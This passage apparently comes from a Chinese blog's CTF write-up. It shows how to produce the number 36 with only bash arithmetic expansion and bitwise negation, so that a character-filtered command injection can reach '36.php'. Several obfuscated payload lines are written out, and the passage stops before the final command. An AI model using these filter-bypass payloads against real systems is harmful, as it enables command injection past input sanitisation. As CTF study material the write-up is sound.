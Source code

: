 所以我们只需要将两个 -1做运算即可

```crystal
echo $(($((~${_}))$((~${_})))) 
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/5a0df2e339264b323a7c6434ab438656.png" alt="" style="max-height:84px; box-sizing:content-box;" />


那我们想要-3也很简单了

```crystal
echo $(($((~${_}))$((~${_}))$((~${_})))) 
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/bcc50176d81d5a9a37c81f661c649f2c.png" alt="" style="max-height:74px; box-sizing:content-box;" />


那既然他说是在 36.php 那我们直接拼凑 -36出来

```crystal
echo $(($((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))))
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/531f2ca18434c3ad4894ec03d033cdfd.png" alt="" style="max-height:132px; box-sizing:content-box;" />


那我们再做一次取反即可

但是取反后是35 所以我们在最后再加一个即可

```crystal
echo $((~$(($((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))$((~${_}))))))
 
echo $((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/632dc443142362e49664f5cb1df9da97.png" alt="" style="max-height:138px; box-sizing:content-box;" />


现在我们就可以直接访问36了

但是我们无法知道命令
